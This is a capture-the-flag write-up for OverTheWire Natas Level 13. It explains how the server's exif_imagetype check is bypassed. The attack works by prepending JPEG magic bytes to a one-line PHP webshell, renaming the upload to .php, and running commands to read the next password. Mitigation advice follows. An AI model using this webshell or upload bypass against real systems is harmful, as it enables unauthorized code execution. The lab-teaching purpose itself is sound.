






# Natas Level 13: The Polyglot File Attack

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 13 | natas13 | http://natas13.natas.labs.overthewire.org/ |

**Introduction:** 

After exploiting the unrestricted file upload in Level 12, I was curious to see how the developers would improve their defenses in Level 13. They added a crucial security measure: actual file content validation. This time, simply changing the extension in DevTools wouldn't be enough. I needed to get creative with something called a polyglot file, where a single file is valid in multiple formats simultaneously.

---

## Hunting for Clues

When I loaded the page, I immediately noticed a different warning message:



The page displayed "NATAS13" at the top with a prominent message: "For security reasons, we now only accept image files!" Below that was the familiar upload form with "Choose a JPEG to upload (max 1KB):" followed by the file chooser and "Upload File" button. The "View sourcecode" link was waiting at the bottom right.

The message about accepting "only image files" suggested that the server was now doing some actual validation beyond just checking the extension. I clicked on "View sourcecode" to see what changed:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
```

Most of the code looked similar to Level 12, but there was one crucial addition that caught my eye:

```php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

This was the game changer. The `exif_imagetype()` function checks the magic bytes (the first few bytes) of a file to determine its type. Magic bytes are signature sequences that identify file formats. For example, JPEG files always start with the bytes `FF D8 FF E0` (or similar JPEG markers).

This meant my Level 12 trick of just changing the extension wouldn't work anymore. The server would actually inspect the file content and reject anything that didn't have valid image magic bytes at the beginning.

But here's the thing: PHP doesn't care about magic bytes. It will execute any file containing `<?php` tags regardless of what bytes come before them. This opens the door for a polyglot file attack, where I create a file that looks like a valid JPEG to the server but also contains executable PHP code.

---

## Breaking In

My strategy was to create a file that starts with JPEG magic bytes but contains PHP code afterward. This type of file is called a polyglot because it's valid in multiple formats simultaneously.

I used `printf` to create a file with the JPEG magic bytes followed by my PHP webshell:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ printf "\xff\xd8\xff\xe0<?php echo shell_exec(\$_GET['cmd']); ?>" > natas_magicbytes.php
```

Let me break down this command:

- `printf` - Outputs formatted text, including binary data
- `\xff\xd8\xff\xe0` - The JPEG magic bytes in hexadecimal notation
  - `\xFF\xD8` - JPEG Start of Image (SOI) marker
  - `\xFF\xE0` - JFIF APP0 marker (common in JPEG files)
- `<?php echo shell_exec(\$_GET['cmd']); ?>` - My PHP webshell (the `\$` escapes the dollar sign for printf)
- `> natas_magicbytes.php` - Redirects output to a file

When I checked the file content, I could see the magic bytes (displayed as special characters) followed by my PHP code:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat natas_magicbytes.php
����<?php echo shell_exec($_GET['cmd']); ?> 
```

The four diamond characters with question marks (`����`) represent the non printable JPEG magic bytes. To `exif_imagetype()`, this looks like the beginning of a JPEG file. To the PHP interpreter, the magic bytes are just ignored data before the `<?php` tag.

Now I needed to upload this polyglot file. Just like in Level 12, I had to change the file extension. I selected my `natas_magicbytes.php` file, then opened DevTools with `Ctrl+Shift+I` before clicking upload.


In the DevTools Elements tab, I could see the hidden input field with `type="hidden"` and `name="filename"` that had a value of `value="hm2p32o4d0.jpg"`. The server was still defaulting to a `.jpg` extension.

I clicked on the value and changed it from `.jpg` to `.php`:



The hidden field now showed `value="hm2p32o4d0.php"`. This would tell the server to save my file with a `.php` extension, making it executable.

With the modification complete, I clicked "Upload File". The server processed my upload:



Success! The page displayed: "For security reasons, we now only accept image files!" followed by "The file upload/y3ddkzn0fx.php has been uploaded" with a clickable link.

The key insight here is that `exif_imagetype()` only checks the beginning of the file. It saw the JPEG magic bytes and said "Yep, that's an image!" without caring that the rest of the file contained PHP code. The file passed the validation check and was saved with the `.php` extension I specified.

I clicked on the uploaded file link to navigate to `upload/y3ddkzn0fx.php`:



The page showed the JPEG magic bytes rendered as special characters (`����`) followed by PHP errors:

```
Notice: Undefined index: cmd in /var/www/natas/natas13/upload/y3ddkzn0fx.php on line 1

Warning: shell_exec(): Cannot execute a blank command in /var/www/natas/natas13/upload/y3ddkzn0fx.php on line 1
```

Perfect! These errors confirmed that my PHP code was executing. The webshell was working but waiting for the `cmd` parameter. I could even see the magic bytes displayed at the top of the page, proving the polyglot file structure was intact.

Time to test command execution. I added `?cmd=id` to the URL:



The page now displayed:

```
����uid=30013(natas13) gid=30013(natas13) groups=30013(natas13),50001(phpupload)
```

Excellent! I had achieved remote code execution. The magic bytes were still visible at the beginning, but the `id` command output confirmed I could execute arbitrary commands as the `natas13` user.

Now for the final step: reading the password file. I constructed a URL with the command to read the natas14 password:

`?cmd=cat%20/etc/natas_webpass/natas14`

(Note: `%20` is the URL encoded space character)



Voila! The page displayed:

```
����z3U[REDACTED]
```

The password appeared right after the magic bytes. I successfully bypassed the image validation using a polyglot file attack.

**The Vulnerability Breakdown:**

This challenge demonstrates **Insufficient File Upload Validation** and **Polyglot File Bypass**. Here's what went wrong:

1. **Partial Content Validation:** The server only checks the beginning of the file using `exif_imagetype()`. It doesn't validate the entire file content or check if there's executable code after the magic bytes.

2. **Client Controlled Extension:** Despite adding content validation, the server still trusts the client provided filename extension from the POST parameter.

3. **No Integrity Check:** The server doesn't verify that the file is a pure, unmodified image. A real image validation would reject files with extra data appended.

4. **Mixed Content Allowed:** PHP happily executes files that contain both image data and PHP code. The image magic bytes don't prevent PHP execution.

5. **Executable Upload Directory:** Files are still stored in the web accessible `upload/` directory where PHP files can be executed.

**Understanding Polyglot Files:**

A polyglot file is valid according to multiple file format specifications simultaneously. Common examples:

- **JPEG + PHP:** Starts with JPEG magic bytes, contains PHP code
- **GIF + PHP:** Uses `GIF89a` header followed by PHP code
- **PDF + JavaScript:** Valid PDF with embedded malicious JavaScript
- **ZIP + JAR:** Files that work as both ZIP archives and Java JARs

Polyglot files work because different parsers look at different parts of a file. Image libraries check the beginning (magic bytes), while PHP looks for `<?php` tags anywhere in the file.

**Real World Impact:**

Polyglot file attacks can bypass many naive validation mechanisms:

- Content Management Systems that check file headers
- Upload filters that only validate MIME types or magic bytes
- Image processing libraries that don't strip metadata
- Antivirus scanners that only check known malicious patterns
- Web Application Firewalls that inspect file headers

This technique is commonly used in real attacks against:
- WordPress sites with weak upload restrictions
- Content sharing platforms
- Profile picture upload features
- Document management systems
- Any upload functionality with partial validation

**Proper Mitigation:**

To defend against polyglot file attacks, developers should:

1. **Re-encode Images:** Process uploaded images through an image library that creates a clean, new image file:
   ```php
   $image = imagecreatefromjpeg($_FILES['uploadedfile']['tmp_name']);
   imagejpeg($image, $target_path, 90); // Creates new, clean JPEG
   imagedestroy($image);
   ```

2. **Validate Entire File Structure:** Use libraries that parse and validate the complete file format, not just magic bytes:
   ```php
   $image_info = getimagesize($_FILES['uploadedfile']['tmp_name']);
   if ($image_info === false || !in_array($image_info[2], [IMAGETYPE_JPEG, IMAGETYPE_PNG])) {
       die("Invalid image file");
   }
   ```

3. **Strip Metadata:** Remove EXIF data and other metadata that could contain malicious content:
   ```php
   // Use libraries like ImageMagick with -strip option
   exec("convert " . escapeshellarg($uploaded) . " -strip " . escapeshellarg($target));
   ```

4. **Store Outside Web Root:** Save uploaded files in a non executable directory:
   ```php
   $upload_dir = '/var/uploads/'; // Outside /var/www/
   // Serve through a script that sets proper headers
   ```

5. **Randomize Extensions:** Force a specific safe extension regardless of upload:
   ```php
   $ext = 'jpg'; // Always use .jpg
   $safe_name = hash('sha256', random_bytes(32)) . '.' . $ext;
   ```

6. **Content Security Policy:** Prevent uploaded files from executing scripts:
   ```apache
   <Directory /var/www/uploads>
       php_flag engine off
       Options -ExecCGI
       AddHandler text/plain .php .php3 .phtml .phtm
   </Directory>
   ```

7. **Separate Domain:** Serve user uploaded content from a different domain to prevent cookie theft and same origin attacks.

8. **File Size Validation:** The existing size check is good, but should be enforced strictly:
   ```php
   // Legitimate images are usually larger; tiny files are suspicious
   if ($size < 100 || $size > 1000) {
       die("Invalid file size");
   }
   ```

9. **Monitor Upload Directory:** Implement file integrity monitoring to detect unauthorized PHP files.

10. **Least Privilege:** Run the web server with minimal permissions to limit damage from successful exploits.

---

## The Loot

**Next Level Password:** `z3U[REDACTED]`

**Quick Recap:** Bypassed image validation using a polyglot file attack by prepending JPEG magic bytes to a PHP webshell, fooling `exif_imagetype()` while maintaining code execution capability.

---

## Lessons Learned

This level reinforced several important security concepts:

1. **Magic Bytes Alone Are Insufficient:** Checking only the file header is not enough. Files can contain valid magic bytes while still being malicious.

2. **Polyglot Files Are Real Threats:** Attackers can craft files that satisfy multiple format validators simultaneously, bypassing naive validation checks.

3. **Content Must Be Sanitized:** The only truly safe approach is to re-encode uploaded files through trusted libraries that strip all potentially dangerous content.

4. **Defense in Depth Remains Critical:** Even with content validation, other controls (non executable upload directories, extension forcing, file re-encoding) are necessary.

5. **Image Libraries Can Be Fooled:** Functions like `exif_imagetype()` and `getimagesize()` check if a file starts like an image, not if it's purely an image.

6. **Small Files Can Be Dangerous:** A 1KB limit doesn't prevent attacks. Webshells can be extremely compact.

7. **Validation Must Be Comprehensive:** Partial validation creates a false sense of security while leaving the application vulnerable.

This challenge demonstrated that adding a single validation check isn't enough. Real security requires multiple layers of defense and understanding how attackers can craft files that satisfy validators while remaining malicious.

On to Level 14!
